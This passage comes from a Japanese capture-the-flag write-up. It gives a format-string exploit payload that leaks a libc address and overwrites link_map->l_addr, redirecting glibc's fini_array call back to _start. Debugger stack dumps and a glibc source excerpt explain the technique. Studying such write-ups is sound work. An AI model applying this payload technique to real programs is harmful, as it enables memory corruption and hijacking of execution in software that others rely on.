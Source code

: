 が、この解法を思いついたときにはすでにlibcリークをしながら2回目のmain関数に飛ぶことができていた。  
それが以下のpayloadである。
(以下のwriteupを参考にした、見つけきてくれた@k1_zuna氏ありがとう)
https://project-euphoria.dev/problems/imaginary-ctf-2022-format-string-fun/

```
payload = b'%*38$p%8$n%33$hn' # just 16 bytes!
payload += p64(0x404ec8)[:-1]
```
上記ペイロードを送った際ののprintf実行時のstackは以下のような状況である。  
(環境によって若干違うと思われるがリモートでも刺さったので主要なところは問題ないはず)  

```
gef> x/40gx $rsp
0x7fffffffe100: 0x3825702438332a25      0x6e68243333256e24 <-- 6,7
0x7fffffffe110: 0x0000000000404ec8      0x00007fffffffe248 <-- 8,9
0x7fffffffe120: 0x00007fffffffe1c0      0x00007ffff7dd51ca
0x7fffffffe130: 0x00007fffffffe170      0x00007fffffffe248
0x7fffffffe140: 0x00000001003ff040      0x0000000000401196
0x7fffffffe150: 0x00007fffffffe248      0x86b8dca51a2db154
0x7fffffffe160: 0x0000000000000001      0x0000000000000000
0x7fffffffe170: 0x0000000000000000      0x00007ffff7ffd000
0x7fffffffe180: 0x86b8dca51bcdb154      0x86b8cce07aafb154
0x7fffffffe190: 0x00007fff00000000      0x0000000000000000
0x7fffffffe1a0: 0x0000000000000000      0x0000000000000001
0x7fffffffe1b0: 0x0000000000000000      0x97f079bd8aba1800
0x7fffffffe1c0: 0x00007fffffffe220      0x00007ffff7dd528b
0x7fffffffe1d0: 0x00007fffffffe258      0x00007ffff7ffe2e0 <-- 32, 33
0x7fffffffe1e0: 0x00007fff00000000      0x0000000000401196
0x7fffffffe1f0: 0x0000000000000000      0x0000000000000000
0x7fffffffe200: 0x00000000004010b0      0x00007fffffffe240 <-- 38, 39
```

'%*38\$p%8\$n'で0x4010b0(_startのアドレス)を0x0404ec8のアドレスに書き込みながら(理由は後述)、第一引数を%pで出力している。  
この時のrsiはlibc内のアドレスをたまたま指しているのでlibcリークもできる。  
残りの部分の'%33$hn'では0x10b0を0x7ffff7ffe2e0に書き込んでいる。  
さて0x7ffff7ffe2e0には何があるかというと、_rtld_globalが指すlink_map->l_addrである。
https://elixir.bootlin.com/glibc/glibc-2.40.9000/source/include/link.h#L95

```
gef> x/10gx &_rtld_global
0x7ffff7ffd000 <_rtld_global>:  0x00007ffff7ffe2e0      0x0000000000000004
0x7ffff7ffd010 <_rtld_global+16>:       0x00007ffff7ffe5d8      0x0000000000000000
0x7ffff7ffd020 <_rtld_global+32>:       0x00007ffff7fbd280      0x0000000000000000
0x7ffff7ffd030 <_rtld_global+48>:       0x0000000000000000      0x0000000000000001
0x7ffff7ffd040 <_rtld_global+64>:       0x0000000000000000      0x0000000000000000
gef> x/10gx 0x7ffff7ffe2e0
0x7ffff7ffe2e0: 0x0000000000000000      0x00007ffff7ffe8b8
0x7ffff7ffe2f0: 0x00000000003ff388      0x00007ffff7ffe8c0
0x7ffff7ffe300: 0x0000000000000000      0x00007ffff7ffe2e0
0x7ffff7ffe310: 0x0000000000000000      0x00007ffff7ffe8a0
0x7ffff7ffe320: 0x0000000000000000      0x00000000003ff398
```

l_addrを書き換えると何が起きるかというと、_dl_call_fini内で呼ぶfini_arrayをずらすことができる。
```
  ElfW(Dyn) *fini_array = map->l_info[DT_FINI_ARRAY];
  if (fini_array != NULL)
    {
      ElfW(Addr) *array = (ElfW(Addr) *) (map->l_addr
                                          + fini_array->d_un.d_ptr);
      size_t sz = (map->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
                   / sizeof (ElfW(Addr)));

      while (sz-- > 0)
        ((fini_t) array[sz]) ();
    }
```
